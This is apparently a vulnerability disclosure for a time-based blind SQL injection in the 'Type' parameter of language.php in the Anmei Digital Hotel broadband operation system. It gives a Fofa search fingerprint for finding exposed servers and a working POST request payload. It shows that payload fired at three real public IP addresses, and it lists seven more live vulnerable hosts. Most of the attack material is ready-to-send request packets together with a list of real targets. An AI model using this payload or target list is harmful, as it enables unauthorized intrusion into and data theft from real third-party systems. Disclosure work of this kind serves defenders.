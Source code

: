 **Time blind injection type SQL injection exists in the Anmei Digital Hotel broadband operation system**

**Official website: **    [**http://www.amttgroup.com/**](http://www.amttgroup.com/)
**Function point: At the editing interface of the language configuration page language. php**
**Route: ip:port/language.php**
**The injection parameter: Type**
**Fofa syntax: icon_hash="1259797304"**
**The vulnerability verification data packet is as follows**

```
POST /language.php HTTP/1.1
Host: ip:port
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 263
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
**Vulnerability Case 1:**
[**https://113.140.76.67:6070/manager/login.php**](https://113.140.76.67:6070/manager/login.php)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499749754-39d596ac-9556-4a37-8856-8c0935953394.png#averageHue=%2399b9d3&clientId=u95a6dc4b-efa8-4&from=paste&height=785&id=u20424b60&originHeight=981&originWidth=1612&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=299714&status=done&style=none&taskId=u84bbbd48-7e5b-42b9-a187-e904cb3371c&title=&width=1289.6)
**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 113.140.76.67:6070
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 267
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499722920-24ff721b-eecf-4e67-b379-3d57fcb65d29.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=674&id=u836fcc32&originHeight=843&originWidth=1580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=388228&status=done&style=none&taskId=uf0c4715f-9ee3-4069-9cb7-036ed30465f&title=&width=1264)
**Vulnerability Case 2:**
[**https://202.105.109.76:7070/manager/login.php**](https://202.105.109.76:7070/manager/login.php)
**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 202.105.109.76:7070
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 267
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499824396-edd67679-0ffb-430d-bda9-250cf232fcea.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=660&id=u9bdf3b23&originHeight=825&originWidth=1578&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=388316&status=done&style=none&taskId=u152bfd0b-21ed-48a7-b1f8-18d4e4719da&title=&width=1262.4)**Vulnerability Case 3:**
[**https://218.29.143.74:7071/manager/login.php**](https://218.29.143.74:7071/manager/login.php)
**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 218.29.143.74:7071
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 265
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20

```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499881158-e38995e4-a6be-4a54-bab1-5c51dec16a13.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=663&id=u1b78ab13&originHeight=829&originWidth=1580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=386822&status=done&style=none&taskId=u25a2cfad-42ec-4257-9c34-503246b9283&title=&width=1264)
**Other cases of vulnerabilities:**
[https://183.62.208.100:7070/manager/login.php](https://183.62.208.100:7070/manager/login.php)
[https://61.185.56.165:7080/manager/login.php](https://61.185.56.165:7080/manager/login.php)
[https://1.82.161.207:7080/manager/login.php](https://1.82.161.207:7080/manager/login.php)
[https://113.59.71.176:7070/manager/login.php](https://113.59.71.176:7070/manager/login.php)
[https://119.4.56.35:7070/manager/login.php](https://119.4.56.35:7070/manager/login.php)
[https://1.202.129.226:7070/manager/login.php](https://1.202.129.226:7070/manager/login.php)
[https://202.97.137.229:62443/manager/login.php](https://202.97.137.229:62443/manager/login.php)

